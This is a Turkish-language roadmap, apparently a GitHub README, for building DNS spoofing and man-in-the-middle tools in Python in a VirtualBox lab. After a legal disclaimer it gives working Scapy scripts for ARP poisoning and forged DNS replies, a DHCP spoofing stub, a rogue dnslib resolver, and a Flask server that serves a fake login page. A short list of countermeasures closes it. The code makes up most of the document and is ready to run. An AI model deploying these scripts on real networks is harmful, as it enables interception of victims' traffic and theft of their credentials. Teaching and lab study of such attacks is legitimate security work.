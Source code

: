 # 🛣️ ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## 🔰 Giriş

Bu yol haritası, Kali Linux’ta bulunan DNS spoofing araçlarından (Ettercap, Dnsspoof, DNSChef, Bettercap, DDSpoof ve SET) esinlenerek, Python kullanılarak bu özelliklerin nasıl geliştirileceği ve test edileceğine dair detaylı bir rehber sunar.  
⚠️ **Önemli Uyarı:** Bu bilgiler yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımı yasa dışı ve etik dışıdır. Herhangi bir ağda veya sistemde test yapmadan önce açık izin almanız zorunludur.

---

## ⚙️ Ön Koşullar

- **Python 3.x**
- **Kütüphaneler:**
  - `scapy`: Ağ manipülasyonu (→ `pip install scapy`)
  - `dnslib`: DNS sunucusu geliştirme (→ `pip install dnslib`)
  - `flask`: Sahte web sunucusu (→ `pip install flask`)
- **Gerekli Bilgi:**
  - Python temelleri
  - IP, ARP, DNS, DHCP protokolleri
  - Linux terminal kullanımı
- **Araçlar:** VirtualBox veya benzeri sanallaştırma yazılımı

---

## 🧪 Test Ortamını Kurma

1. **VirtualBox kurulumu**
2. **Sanal Makineler:**
   - Saldırgan VM: Kali Linux veya benzeri
   - Kurban VM: Windows / Linux
3. **Ağ yapılandırması:** Host-only ya da internal network kullanın

---

## 🧱 Temel Bileşenlerin Geliştirilmesi

### 🔌 ARP Spoofing Betiği

```python
from scapy.all import *
import time

def get_mac(ip):
    ans, _ = arping(ip)
    for s, r in ans:
        return r[Ether].src

def arp_spoof(target_ip, gateway_ip):
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    while True:
        send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip), verbose=0)
        send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip), verbose=0)
        time.sleep(2)

arp_spoof("192.168.1.10", "192.168.1.1")
```
## DNS Spoofing Betiği
```
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/\
                         UDP(dport=packet[UDP].sport, sport=53)/\
                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```
##  DHCP Manipülasyon Betiği
```
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:
        fake_dns = "192.168.1.100"
        # Sahte yanıt oluşturulabilir, örnek yapı:
        # send(dhcp_offer)
        
sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)

```
## Sahte Web Sunucusu (Flask) Test amaçlı kullanmak için 
```
pip install flask
python
Kopyala
Düzenle
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```
## Seçmeli DNS Spoofing (DNS Proxy)

```
from dnslib import *
from dnslib.server import DNSServer, BaseResolver

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()

```
## Entegre MITM Betiği
ARP + DNS Spoofing birleşik bir yapı haline getirilebilir.
Argüman desteği veya yapılandırma dosyası ile özelleştirilebilir.
## Test Yöntemleri
Özellik	Test Adımı
ARP Spoofing	arp -a ile ağ geçidinin MAC adresini kontrol edin
DNS Spoofing	nslookup example.com komutu sahte IP döndürmeli
DHCP Spoofing	ipconfig /renew sonrası DNS adresi değişmeli
Web Sunucusu	Kurban, sahte web sayfasını görüntüleyebilmeli

##  Karşı Önlemler
Statik ARP tabloları

DNSSEC kullanımı

HTTPS zorunluluğu

VPN veya segment izolasyonu

İzole test ağı kullanımı

